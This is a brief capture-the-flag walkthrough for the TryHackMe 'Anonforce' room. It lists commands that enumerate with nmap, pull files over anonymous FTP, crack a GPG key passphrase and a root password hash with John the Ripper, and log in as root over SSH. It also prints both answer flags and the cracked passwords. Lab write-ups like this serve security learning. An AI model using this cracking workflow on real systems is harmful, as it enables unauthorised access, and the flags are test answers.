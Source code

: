 # <div align="center">[Anonforce](https://tryhackme.com/r/room/bsidesgtanonforce)</div>
<div align="center">boot2root machine for FIT and bsides guatemala CTF</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/b2bd9f6b-8995-402a-8e54-2c5596bc16cc" height="200"></img>
</div>

## Task 1. Anonforce Machine

Read user.txt and root.txt
### User.txt
* ```nmap -sC -sV <IP>```
* ```ftp <IP>```
* ```cd home/melodias```
* ```get user.txt```
* ```cat user.txt```
```
606083fd33beb1284fc51f411a706af8
```
### Root.txt
* ```ls /notread```
* ```gpg --import private.asc```
* ```/data/src/john/run/gpg2john private.asc > pgp.hash```
* ```john pgp.hash --wordlist=/data/src/wordlists/rockyou.txt```
* ```# xbox360          (anonforce)* ```
* ```gpg --import private.asc```
* ```gpg --decrypt backup.pgp```
* ```john backup --wordlist=/data/src/wordlists/rockyou.txt```
* ```root: hikari```
* ```ssh root@<IP>```
* ```cat root.txt```
```
f706456440c7af4187810c31c6cebdce
```
